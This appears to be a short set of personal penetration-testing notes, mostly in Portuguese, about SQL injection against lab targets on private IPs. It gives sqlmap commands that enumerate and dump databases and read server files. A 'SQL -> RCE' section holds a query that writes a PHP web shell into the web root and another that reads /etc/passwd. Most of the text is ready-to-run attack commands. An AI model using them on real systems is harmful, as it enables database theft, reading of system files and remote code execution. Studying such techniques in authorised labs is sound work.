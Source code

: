 **Retrieve de informações**
```
# (queremos descobrir as bases de dados) enumeração das bases de dados
sqlmap -u "http://172.16.1.245/produtos.php?mprod=0&cat=26&subcat=161&pag=3" --dbs

# dump do banco de dados
sqlmap -u "http://172.16.1.245/produtos.php?mprod=0&cat=26&subcat=161&pag=3" -D deckstore --dump --batch
```

flags relevantes
```
-D [DB]  # DBMS database to enumerate

-T [TBL] # DBMS database table(s) to enumerate

-C [COL] # DBMS database table column(s) to enumerate

```

arquivo de outputs do sqlmap
```
/home/kali/.local/share/sqlmap/output/
```

**validating if a file exist with sqlmap**
```
sqlmap -u "http://172.16.1.116/acs/admin.php?pw=admin&page=/acs/index.php&del=3" -p del --search -F "index.php"
```

**reading the file content with sqlmap**
```
sqlmap -u "http://172.16.1.116/acs/admin.php?pw=admin&page=/acs/index.php&del=3" -p del --file-read="/var/www/acs/index.php"
```


#### SQL -> RCE
falta fazer
```
# escreve um payload em php e salva no diretório especificado
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';

# leitura de arquivo
SELECT LOAD_FILE('/etc/passwd');




```

## ferramentas de fuzzing
- gobuster
- ffuf

